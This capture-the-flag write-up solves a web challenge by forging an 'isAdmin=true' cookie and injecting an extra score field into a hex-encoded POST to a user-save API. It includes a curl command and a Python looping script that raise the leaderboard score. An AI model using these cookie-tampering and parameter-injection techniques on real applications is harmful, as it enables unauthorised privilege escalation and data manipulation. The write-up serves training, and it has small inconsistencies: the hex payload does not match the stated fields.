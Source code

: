 # Web Framework & API Vulnerabilities High Score

Visiting the site at **http://141.85.224.115:7001/**, we found a simple login and registration form. Inspecting the HTML, we discovered that once logged in, we are redirected to /account.php, which allows us to: View our score and user info Submit updated username/email via an AJAX POST request to /api-save-user.php

```js
var data = 'username='+username+'&email='+email;
data = a2hex(data);
$.ajax({
  type: "POST",
  url: "api-save-user.php",
  data: {q: data},
  success: function(data) {
    console.log(data);
  }
});
```

- The data is hex-encoded client-side before being sent.
- No CSRF tokens or validation observed.

We decoded and crafted our own **POST** requests to **api-save-user.php**:
- While inspecting cookies, we noticed a cookie: **isAdmin=false**.
- We manually modified it to: **isAdmin=true**.

And reloaded **/account.php** — it looked visually identical, but we suspected this cookie may unlock some backend functions.

We then tried submitting extra parameters, like a score field:

```bash
username=test&email=test@gmail.com&score=1 {max_score + 1}
```

Encoded and submitted:

```bash
echo -n 'username=test&email=test@gmail.com&score=1' | xxd -p -c 9999

curl -X POST http://141.85.224.115:7001/api-save-user.php \
  -d 'q=757365726e616d653d6461646126656d61696c3d78656e6f776176653140676d61696c2e636f6d2673636f72653d32' \
  -b "PHPSESSID=9bdded797488d3b70c97fe2ca81f57b7; isAdmin=true"
```

It was accepted by the API: **["Success! Your info has been saved!"]**

But the leaderboard did not reflect the updated score only when the cookie was true.. and we got the flag: **SSS{the_greatest_0f_them_all}**

Or our second solution via a python script:
```python
import requests
import codecs
import time

# Configuration
URL = "http://141.85.224.115:7001"
SESSION_ID = "9bdded797488d3b70c97fe2ca81f57b7"
USERNAME = "test"
EMAIL = "test@gmail.com"
TARGET_SCORE = {current highscore + 1 at least}

# Setup session with cookies
session = requests.Session()
session.cookies.set("PHPSESSID", SESSION_ID)
session.cookies.set("isAdmin", "true")

while True:
    print("[*] Getting current highscore from leaderboard...")
    res = session.get(URL + "/leaderboard.php")

    try:
        current_score = int(res.text.split(f"<li>{USERNAME} - ")[1].split(" points")[0])
        print(f"[+] Current highscore: {current_score}")
    except Exception as e:
        print("[-] Could not parse current highscore. Exiting.")
        break

    if current_score >= TARGET_SCORE:
        print(f"[✓] Reached target score ({TARGET_SCORE})!")
        break

    new_score = current_score + 1
    print(f"[*] Updating score to {new_score}...")

    # Build payload
    payload = f"username={USERNAME}&email={EMAIL}&score={new_score}"
    hex_payload = codecs.encode(payload.encode(), "hex").decode()

    res = session.post(URL + "/api-save-user.php", data={"q": hex_payload})

    if "Success" in res.text:
        print(f"[✓] Score updated to {new_score}")
    else:
        print("[-] Failed to update score. Response:", res.text)
        break

    time.sleep(0.05)
```
